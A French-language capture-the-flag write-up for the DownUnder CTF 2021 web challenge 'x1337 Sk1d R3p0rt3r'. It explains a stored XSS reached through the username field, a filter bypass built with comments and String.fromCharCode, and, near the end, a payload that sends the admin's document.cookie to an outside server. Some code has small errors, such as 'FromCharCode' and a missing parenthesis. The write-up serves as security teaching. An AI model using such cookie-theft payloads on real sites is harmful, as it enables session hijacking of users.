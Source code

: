 # Writeup for the challenge **_`x1337 Sk1d R3p0rt3r`_** from DownUnder CTF 2021
----

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`x1337 Sk1d R3p0rt3r`** |
| Category: | **`Web`** |
| Points: | **`232pts`**|
| Author: | **`Xesh`**|

## Description:
 Pesky sk1dz everywhere, they are being taken offline left right and centre! It looks like th3 sk1dz have been reporting eachother on this site, something something cyber justice?

---

- ## Solution

Pour ce challenge, on se retrouve tout d'abord sur une page d'accueil.

Après s'être inscrit et connecté on arrive sur le endpoint `/dashboard`

 ![Capture 1](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web1.png)

Plusieurs  possibilités s'offrent à nous:
###### **1.**  Créer un report
###### **2.** Changer son nom d'utilisateur

---

### Analyse du report
On tente d'abord de créer un report avec un texte aléatoire.

On se retrouve alors sur la page détaillant ce dernier.

 ![Capture 2](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web2.png)


Intéréssant, on peut voir un boutton `Send Report to Admin`, ce genre de feature est généralement présente lorsqu'il est question d'exploiter une faille **XSS**.

Avec cette info en tête essayons une injection classique dans le champs report.

```html
<script> alert('test') </script>
```

Rien de spécial le champs ne semble pas vulnérable au injection XSS.
 ![Capture 3](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web3.png)

---

### Analyse du nom d'utilisateur
Essayons maintenant d'insérer le payload dans le nom d'utilisateur.
 ![Capture 4](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web4.png)

Très bien, alors tentons un simple tag ```<script>```
 ![Capture 5](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web5.png)
 
Pas de soucis cette fois, vérifions donc une potentielle vulnérabilité XSS dans le report via le nom d'utilisateur.
 ![Capture 6](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web6.png)
 
Haha, il semble que cette fois notre injection ai marché, regardons le code source:

 ![Capture 7](https://raw.githubusercontent.com/Deilless/Writeups/main/Images/DUCTF_web7.png)

Plusieurs choses sont à noter:

- Notre balise `<script>` a bien été injecter dans le code **HTML**
- On retrouve nos anciens reports dans cette balise
- On peut voir que les charactère **`<`**, **`>`** et **`"`** sont échappés quand ils ont été inséré dans le report

Il semblerait que nous sommes face à une **XSS DOM-Based**, ce type de XSS consiste à exploiter une partie de code HTML pour pouvoir réussir à executer un payload

Jusqu'ici nous savons qu'il est seulement possible d'injecter des balises dans notre nom d'utilisateur mais que nous sommes limités à 10 caractères

Pour le code javascript, il est probablement possible d'utiliser le contenu du report à condition de réussir à enlever le code HTML présent et de ne pas utiliser de string

Commencons par le code HTML problématique

Il se situe à deux endroit: entre la balise `<script>` et le payload ainsi qu'entre le le payload et la balise `</script>`

Heureusement que le javascript permet d'ajouter des commentaires multilignes grâce à `/*` et `*/`

Placons alors ces commentaires aux endroit adequats, pour cela, nous allons devoir changer plusieurs fois de nom d'utilisateur
1. On change le nom d'utilisateur par `*/</script` (le dernier `>` est ajouté automatiquement gràce au code HTML du site) et on envoie le report avec une valeur quelqueconque
2. On change le nom d'utilisateur pour le remettre comme avant et on insère la deuxième partie du payload dans le report
Pour cette partie il est necessaire de trouver comment récupérer une string sans passer les guillements, par chance le javascript dispose de la fonction `String.fromCharCode()`" qui prend une ou plusieurs valeurs décimales et renvoie une string basée sur les codes ascii correspondant, dans notre exemple `'test' = String.fromCharCode(116, 101, 115, 116)`
Notre payload sera donc `*/alert(String.FromCharCode(116, 101, 115, 116)/*`
3. Pour finir on change une dernière fois notre nom d'utilisateur par `<script>/*` et on envoie un report


C'est y est, on a bien notre pop-up, le DOM est bien exploité et ressemble à cela

```html
<script>/*garbage html*/ alert(String.FromCharCode(116, 101, 115, 116) /*garbage html*/</script>
```

On passe maintenant à la vraie exploitation avec un payload visant les cookie:
```html
<script> window.location = 'https://my-server.com/?cookie=' + document.cookie </script>
```

Qui se transforme en
```html
<script> window.location = String.FromCharcode(104, 116, 116, 112, 115, 58, 47, 47, 109, 121, 45, 115, 101, 114, 118, 101, 114, 46, 99, 111, 109, 47, 63, 99, 111, 111, 107, 105, 101, 61) + document.cookie </script>
```

On à plus qu'à récupérer le cookie de l'admin et retourner sur le dashboard

Et bim, dans la note de l'admin se trouve le flag : **`DUCTF{DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}}`**
